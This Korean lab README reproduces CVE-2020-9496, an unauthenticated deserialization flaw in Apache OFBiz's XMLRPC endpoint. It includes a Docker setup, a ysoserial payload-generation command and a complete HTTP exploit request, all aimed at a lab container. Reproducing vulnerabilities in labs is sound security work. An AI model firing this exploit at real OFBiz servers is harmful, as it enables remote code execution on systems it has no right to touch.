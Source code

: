 # ApacheOfBiz에서 XMLRPC 인자에 대한 안전하지 않은 역직렬화 (CVE-2020-9496)

Apache OFBiz는 오픈 소스 ERP(enterprise resource planning, 전사적 자원 관리) 시스템으로 이는 기업의 많은 비즈니스 프로세스를 통합하고 자동화하는 기업 애플리케이션 제품군을 제공한다.

OfBiz는 `/webtools/control/xmlrpc`에 XMLRPC 엔드포인트를 노출하는데 대게 인증은 서비스별로 적용되므로 이는 인증되지 않은 엔드포인트이다. 하지만, XMLRPC 요청은 인증 전에 처리되기에 이 과정에서 원격 호출로 인한 직렬화된 인자가 역직렬화된다. 따라서 클래스 경로에 원격 코드 실행을 위한 도구로 사용할 수 있는 클래스가 포함되어 있으면, 공격자는 OfBiz 서버에서, OfBiz를 실행하는 서블릿 컨테이너와 동일한 권한을 가지는 등의 임의의 시스템 명령을 실행할 수 있다. 

<용어 정의>
직렬화: 객체들의 데이터를 연속적인 데이터(스트림)로 변형하여 전송 가능한 형태로 만드는 것
역직렬화: 직렬화된 데이터를 다시 객체의 형태로 만드는 것
XMLRPC: XML-RPC란, RPC 프로토콜의 일종으로서, 인코딩 형식에서는 XML을 채택하고, 전송 방식에서는 HTTP 프로토콜을 사용하고 있다.

## 실행 환경 구성

Apache OfBiz (17.12.01)를 실행하기 위해 아래 명령어를 입력하자:

```
docker compose up -d
```
 
잠시 후, 로그인 페이지가 나타나는데 `https://your-ip/myportal/control/main`에서 확인할 수 있다.

## 취약점 재현

CommonsBeanutils1 payload 생성:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

`[base64-payload]`를 교체하고, request 보내기:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

`touch /tmp/success` 컨테이너에서 실행된 것을 확인할 수 있다:

![](3.png)

## 참조:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html
